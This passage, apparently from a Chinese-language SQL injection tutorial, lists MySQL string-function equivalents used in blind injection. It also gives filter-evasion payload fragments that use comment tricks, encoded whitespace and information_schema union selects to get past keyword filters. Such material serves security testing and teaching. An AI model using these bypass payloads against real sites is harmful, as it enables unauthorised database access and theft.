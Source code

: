 ```
substring('abc',1,1) = 'a'
substring('abc' from 1 for 1) = 'a'
mid('abc',1,1) = 'a'
mid('abc' from 1 for 1) = 'a'
lpad('abc',1,space(1)) = 'a'
rpad('abc',1,space(1)) = 'a'
left('abc',1) = 'a'
reverse(right(reverse('abc'),1)) = 'a'
insert(insert('abc',1,0,space(0)),2,222,space(0)) = 'a'
space(0) = trim(version()from(version()))

#搜索子字符串
locate('a','abc')
position('a','abc')
position('a' IN 'abc')
instr('abc','a')
substring_index('ab','b',1)

#分割字符串
length(trim(leading 'a' FROM 'abc'))
length(replace('abc', 'a', "))

#比较字符串
strcmp('a','a')
mod('a','a')
find_in_set('a','a')
field('a','a')
count(concat('a','a'))

#字符串长度
length()
bit_length()
char_length()
octet_length()
bit_count()

#关键字过滤
Connected keyword filtering
(0)union(select(table_name),column_name,…
0/**/union/*!50000select*/table_name`foo`/**/…
0%a0union%a0select%09group_concat(table_name)….
0′union all select all`table_name`foo from`information_schema`. `tables`

#控制流
case 'a' when 'a' then 1 [else 0] end
case when 'a'='a' then 1 [else 0] end
if('a'='a',1,0)
ifnull(nullif('a','a'),1) 
```

### d) 测试向量
